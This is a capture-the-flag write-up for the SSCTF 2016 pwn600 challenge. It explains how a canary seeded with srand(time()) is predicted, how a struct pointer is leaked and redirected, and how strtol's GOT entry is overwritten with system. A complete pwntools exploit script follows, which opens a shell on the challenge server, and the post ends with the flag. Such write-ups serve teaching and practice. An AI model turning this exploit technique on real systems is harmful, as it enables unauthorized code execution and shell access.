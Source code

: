 ```yaml
---
layout: post
title: SSCTF - Exploitation 600
category: [Exploitation]
tags: [Exploitation, SSCTF]
comments: true
---
```


**Points:** 600
**Solves:** 
**Category:** Exploitation
**Description:**

> [pwn2-58461176.zip]({{site.url}}/assets/pwn2-58461176.zip)

If you haven't read the [first part, pwn400]({{site.url}}/exploitation/2016/02/28/SSCTF-PWN-400.html), please do so before continuing.
In this post I will only explain the differences between pwn400 and pwn600, and of course the exploitation methods.

The biggest difference is that here, we have a call to srand(time()) followed by rand(). The resulting value is used as a canary between the list->number_of_elements and list->array[n].

{% highlight text %}
struct list {
	int number_of_elements;
	int canary;
	int array[n];
}
{% endhighlight %}

The canary is checked every time, we try to Update an index. If the canary has changed from the original value, the binary exits. Another difference is that here for the Main Menu's option is compared with _rep cmpsb_ instruction instead of strcmp. However, Sort Menu's options are converted from ascii to integers via strtol which will allow us to substitute with system() and use just like we used strcmp in the previous part.

Knowing that our plan of action does not differ much.

1. Calculate the canary
2. Make list of 2 elements
3. Use canary and 0x40000001 as elements
4. Sort, so the ptr to the struct is saved
5. Leak the ptr to the struct
6. Overwrite the ptr to struct with ptr to struct+8
7. Update the elements so they are no longer sorted. We need the number_of_elements in index 0 and canary in index 1
8. Invoke 'reload' to cause the initialization of the new active list. This list just like before, it will 
use our array[0] as number_of_elements and array[1] as canary
9. Leak strtol address
10. Replace strtol with system

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys, time, ctypes

# Step 1, calculate canary
LIBC = ctypes.cdll.LoadLibrary('./libc.so')
seed = LIBC.time(0)+1
LIBC.srand(seed)
ran = LIBC.rand()

r = remote('pwn.lab.seclover.com', 22222)
#r = process(['./pwn2-58461176'])
#print util.proc.pidof(r)
#sys.stdin.read(1)

# Steps 2, 3
garbage = r.recv()
r.sendline("sort")
r.sendline("2")
r.sendline(str(int(ran) ^ 1073741825))
r.sendline("1073741825")

# Step 4
r.sendline("3")

# Step 5
r.sendline("1")
r.sendline("2")
garbage = r.recvuntil("Query result: ")
leak = r.recvline()
log.info("Leak: " + hex(int(leak)))

# Step 6
r.sendline("2")
r.sendline("2")			# 1st index
r.sendline(str(int(leak) + 8))

# Step 7
r.sendline("2")
r.sendline("0")
r.sendline("1073741825")
r.sendline("2")
r.sendline("1")
r.sendline(str(int(ran) ^ 1073741825))
r.sendline("7")

# Step 8
r.sendline("reload")
r.sendline("0")

# Step 9
r.sendline("1")
r.sendline(str( (0x10804c024 - (int(leak)+38)) / 4 ))		# Leak strtol@got
time.sleep(2)
garbage = r.recvuntil("Query result:")
strtol = r.recvline()
log.info("strtol: " + hex( abs((int(strtol) ^ 0xffffffff) + 1) ))

# Step 10, overwrite strlen with system
r.sendline("2")
r.sendline(str( (0x10804c024 - (int(leak)+38)) / 4 ))
r.sendline(str( int(strtol) + 0xb6e0 )) 				# Local 0xbbd0

r.sendline("/bin/sh")

r.interactive()

# pwn600 SSCTF{eaf05181170412ab19d74ba3d5cf15b9}
{% endhighlight %}

